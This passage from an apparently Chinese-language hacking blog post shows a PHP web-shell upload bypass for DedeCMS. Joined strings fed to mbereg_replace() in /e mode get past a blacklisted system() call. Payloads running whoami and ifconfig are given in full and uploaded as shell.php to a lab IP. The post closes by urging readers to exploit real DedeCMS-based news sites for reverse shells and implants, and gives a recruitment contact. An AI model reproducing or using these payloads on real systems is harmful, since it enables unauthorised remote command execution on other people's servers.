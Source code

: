 **这里的思路就是利用字符拼接+mbereg_replace()的/e模式进行bypass，我们看一下以下这段代码执行结果。******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4E1QoX7HvAWGGBexticlibUQccxRt45IA9apSFIDRDeQibqw0EvJNInSNTQ/640?wx_fmt=png&from=appmsg "")  
  
**这里就是采用的mbereg_replace()开启/e模式，拼接的$a.$b字符串为system(****‘****whoami****’****)，这里采用字符串而不直接调用system()函数是因为前面system()函数已经加入黑名单了，当我们$a.$b拼接时为一个新的字符串。本质是就是mbereg_replace()的/e模式执行了system函数，并传参whoami进行执行，我们尝试上传bypass。******  
  
**Payload如下:******  
```
<?php
$a = 'system';
$b = '(whoami)';
echo mbereg_replace('.*', '\0', $a.$b, 'mer');
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4EmQyYIicgy1pBwGaoTj0ZPctstP6Ydas6XS0ASn19UL4Hp4S7okQpoaw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4E9vnoR6dEpZkxJp2Acia3mrMxQYCYWQAia8a6iagrYUcSVQ9BnfQRqUEqw/640?wx_fmt=png&from=appmsg "")  
  
**访问新建的文件http://192.168.111.130/shell.php，这里返回两次www的用户名是因为我使用了echo打印。******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4EeeR8rTUWjII7Xh5nV7MUicKiaq27UP78WDgUd4Z3ZJiaTFhkMtmU3j5xA/640?wx_fmt=png&from=appmsg "")  
  
**为了更直观，我们打印ip地址信息。******  
```
1.<?php
2.$a = 'system';
3.$b = '(ifconfig)';
4.echo mbereg_replace('.*', '\0', $a.$b, 'mer');
```  
  
**接着继续访问http://192.168.111.130/shell1.php，成功解析执行。******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4El0Y5xgWVB21XHNibfEK2pXcPelrRYLz0eU8kkpnia0vOgAuu5rZHC0BQ/640?wx_fmt=png&from=appmsg "")  
  
**对比查看，命令执行结果一致。******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4E00FAxR9xkIC03AtAjN0RB6BlsE2VhD7roIPQ6zCvq9HtsuiaE973MoA/640?wx_fmt=png&from=appmsg "")  
  
**师傅们后续遇到dedecms二开的新闻站点可以利用该漏洞，命令执行反弹shell上马完全是可以的！欢迎各位师傅们加入团队公开群沟通交流，加VX拉师傅们入群: f18089848863。**  
  
